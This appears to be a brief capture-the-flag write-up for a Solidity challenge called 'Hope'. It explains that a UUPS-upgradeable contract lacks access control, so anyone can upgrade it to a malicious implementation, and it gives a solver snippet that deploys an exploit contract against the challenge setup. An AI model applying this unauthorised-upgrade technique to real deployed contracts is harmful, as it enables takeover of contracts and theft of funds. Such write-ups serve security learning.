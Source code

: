 # Hope

TL;DR (very quick one):
1. See the Contract have `UUPSUpgradeable`
2. Notice that no access control is being implemented
3. Just upgrade the Contract to the one that returning true
4. below are the solver

```solidity
        Exploit exp = new Exploit(payable(address(setupInstance)));
        exp.exploit();

        address falsehope = address(exp.FH());

        bytes memory getHopeVersionCall = abi.encodeCall(Hope.getHopeVersion, ());
        (bool success, bytes memory returnData) = address(hopeProxy).call(getHopeVersionCall);
        require(success, "Call to getHopeVersion failed");
        uint256 hopeVersion = abi.decode(returnData, (uint256));

        console.log(hopeVersion);
        console.log(setupInstance.isSolved());
```
5. Exploit contract are basically the Hope contract with a slight change to return `true`.

# Ref
